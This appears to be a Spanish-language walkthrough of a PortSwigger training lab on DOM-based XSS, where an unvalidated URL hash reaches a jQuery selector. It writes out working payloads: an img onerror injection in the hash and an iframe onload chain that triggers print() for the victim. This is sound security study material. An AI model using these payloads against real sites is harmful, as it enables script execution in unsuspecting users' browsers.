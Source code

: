 
La aplicación utiliza jQuery para seleccionar elementos basándose en ese valor y realizar acciones como hacer scroll automático a un post específico. El problema es que se emplea directamente como selector, sin validación alguna, permitiendo al atacante manipularlo para inyectar y ejecutar código en el navegador de la víctima.

Montamos un ataque usando un servidor de explotación que carga la página vulnerable dentro de un contenedor invisible. Al modificarse dinámicamente la URL interna, se inyecta una instrucción que se ejecuta automáticamente mediante un evento de error, invocando una función del navegador como demostración.

Esta clase muestra cómo incluso fragmentos aparentemente inofensivos de la URL, como el hash, pueden ser vectores de ataque si no se gestionan correctamente en el lado cliente

------

Nos podemos aprovechar de la funcion de auto scroll, ya que si ponemos lo siguiente

https://burpsuite/#Post_Markos

Me estara llevando al Post en cuestion de la pagina

desde la consola, podemos hacer:

window.location.hash.slice(1)

Y se nos muestra ese valor, y para verlo mejor, se muestra asi:

decodeURIComponent(window.location.hash.slice(1))

Ahora podemos hacer lo siguiente para explotar el XSS desde la URL

```html
https://burpsuite/#<img src=0 onerror=alert(0)
```

Esto nos arroja un alert, pero debemos de mandarle el link a la victima atraves del server  de portswigger, para ello usamos las etiquetas iframe

```html
<iframe src=https://burpsuite/#></iframe>
```

Esto nos muestra la pagina home de la prueba, ahora debemos de contatenar la instruccion maliciosa y lo podemos visualizar al guardar el exploit y mostrarlo

```html
<iframe src="https://burpsuite/#" onload="this.src += '<img src=0 onerror=alert()>' "></iframe>
```

Ahora debemos de mandar llamar la funcion de print() para completar el reto

```html
<iframe src="https://burpsuite/#" onload="this.src += '<img src=0 onerror=print()>' "></iframe>
```

Guardamos y enviamos el exploit, y el reto queda resuelto










